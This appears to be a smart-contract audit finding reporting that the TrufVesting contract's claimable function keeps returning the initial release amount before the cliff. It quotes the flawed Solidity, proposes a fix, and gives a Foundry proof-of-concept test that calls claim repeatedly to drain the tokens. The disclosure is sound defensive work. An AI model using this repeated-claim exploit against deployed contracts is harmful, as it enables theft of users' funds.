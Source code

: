 Soft Topaz Gibbon

high

# Users can fully drain the `TrufVesting` contract

## Summary
Due to flaw in the logic in `claimable` any arbitrary user can drain all the funds within the contract.

## Vulnerability Detail
A user's claimable is calculated in the following way: 
1. Up until start time it is 0.
2. Between start time and cliff time it's equal to `initialRelease`.
3. After cliff time, it linearly increases until the full period ends.

However, if we look at the code, when we are at stage 2., it always returns `initialRelease`, even if we've already claimed it. This would allow for any arbitrary user to call claim as many times as they wish and every time they'd receive `initialRelease`. Given enough iterations, any user can drain the contract. 

```solidity
    function claimable(uint256 categoryId, uint256 vestingId, address user)
        public
        view
        returns (uint256 claimableAmount)
    {
        UserVesting memory userVesting = userVestings[categoryId][vestingId][user];

        VestingInfo memory info = vestingInfos[categoryId][vestingId];

        uint64 startTime = userVesting.startTime + info.initialReleasePeriod;

        if (startTime > block.timestamp) {
            return 0;
        }

        uint256 totalAmount = userVesting.amount;

        uint256 initialRelease = (totalAmount * info.initialReleasePct) / DENOMINATOR;

        startTime += info.cliff;

        if (startTime > block.timestamp) {
            return initialRelease;
        }
```

```solidity
    function claim(address user, uint256 categoryId, uint256 vestingId, uint256 claimAmount) public {
        if (user != msg.sender && (!categories[categoryId].adminClaimable || msg.sender != owner())) {
            revert Forbidden(msg.sender);
        }

        uint256 claimableAmount = claimable(categoryId, vestingId, user);
        if (claimAmount == type(uint256).max) {
            claimAmount = claimableAmount;
        } else if (claimAmount > claimableAmount) {
            revert ClaimAmountExceed();
        }
        if (claimAmount == 0) {
            revert ZeroAmount();
        }

        categories[categoryId].totalClaimed += claimAmount;
        userVestings[categoryId][vestingId][user].claimed += claimAmount;
        trufToken.safeTransfer(user, claimAmount);

        emit Claimed(categoryId, vestingId, user, claimAmount);
    }
```


## Impact
Any user can drain the contract 

## Code Snippet
https://github.com/sherlock-audit/2023-12-truflation/blob/main/truflation-contracts/src/token/TrufVesting.sol#L176C1-L182C10

## Tool used

Manual Review

## Recommendation
change the if check to the following 
```solidity
        if (startTime > block.timestamp) {
            if (initialRelease > userVesting.claimed) {
            return initialRelease - userVesting.claimed;
            }
            else { return 0; } 
        }
```

## PoC 

```solidity
    function test_cliffVestingDrain() public { 
        _setupVestingPlan();
        uint256 categoryId = 2;
        uint256 vestingId = 0;
        uint256 stakeAmount = 10e18;
        uint256 duration = 30 days;

        vm.startPrank(owner);
        
        vesting.setUserVesting(categoryId, vestingId, alice, 0, stakeAmount);

        vm.warp(block.timestamp + 11 days);     // warping 11 days, because initial release period is 10 days
                                                // and cliff is at 20 days. We need to be in the middle 
        vm.startPrank(alice);
        assertEq(trufToken.balanceOf(alice), 0);
        vesting.claim(alice, categoryId, vestingId, type(uint256).max);
        
        uint256 balance = trufToken.balanceOf(alice);
        assertEq(balance, stakeAmount * 5 / 100);  // Alice should be able to have claimed just 5% of the vesting 

        for (uint i; i < 39; i++ ){ 
            vesting.claim(alice, categoryId, vestingId, type(uint256).max);
        }
        uint256 newBalance = trufToken.balanceOf(alice);   // Alice has claimed 2x the amount she was supposed to be vested. 
        assertEq(newBalance, stakeAmount * 2);             // In fact she can keep on doing this to drain the whole contract
    }
```

